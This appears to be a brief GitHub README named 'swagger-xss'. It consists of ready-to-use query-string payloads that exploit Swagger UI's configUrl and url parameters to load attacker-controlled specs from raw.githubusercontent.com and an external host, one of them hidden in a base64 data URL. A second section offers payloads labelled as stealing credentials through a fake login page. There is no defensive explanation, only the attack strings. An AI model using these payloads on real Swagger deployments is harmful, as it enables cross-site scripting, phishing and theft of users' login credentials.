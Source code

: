 # swagger-xss

```
?configUrl=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/swagger.json
?url=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/swagger.yaml
?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==
````

# Credentails stealing using fake login page
?configUrl=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/form/xss_cred_steal.json
?url=https://raw.githubusercontent.com/rix4uni/swagger-xss/main/form/xss_cred_steal.yaml
